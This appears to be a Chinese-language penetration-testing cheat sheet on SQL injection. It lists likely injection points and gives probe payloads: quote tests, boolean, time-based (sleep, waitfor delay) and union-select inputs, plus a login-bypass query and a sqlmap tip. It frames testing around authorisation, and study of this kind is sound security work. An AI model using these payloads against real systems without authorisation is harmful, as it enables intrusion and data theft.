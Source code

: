 # sql 注入

未授权看到数据库名即可，授权后再深入测试

## 手动

sql 注入可能存在的位置

```
登录框
检索
页面详情
Cookie
需要调用后端功能的 API
```

验证 sql 注入的方法

```
id=1' 
id=1"
> 看是否报错
id=1/1
id=1/0
> 看是否有不同（数据包，响应时间）
```

```
id=1' and '1' ='1
id=1' and 1=1#
id=1' and 1=1-- 
id=1' and 1=1--+
id=1' waitfor delay '0:0:5'--+
id=1' union select 1,@@VERSION,3--+

0%27XOR(if(now()=sysdate()%2Csleep(3)%2C0))XOR%27Z
若存在 SQL 注入则睡眠 3 秒
```

判断 sql 查询类型

```
id=1'||(seletc '')||'
id=1'||(seletc '' from dual)||'
```

在 SQL 查询中，`OR` 运算符具有短路求值的逻辑。这使得在查询中加入恒为真的条件（如 `1=1`）会使得整个 `WHERE` 子句总为真，从而返回所有记录。

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1
```

登录框处的 sql 注入

```
SELECT * FROM users WHERE username = 'administrator'--+' AND password = ''
```

## 扫描器

sqlmap 在可使用 -r test.txt 对数据包进行注入（可测登录时的数据包）

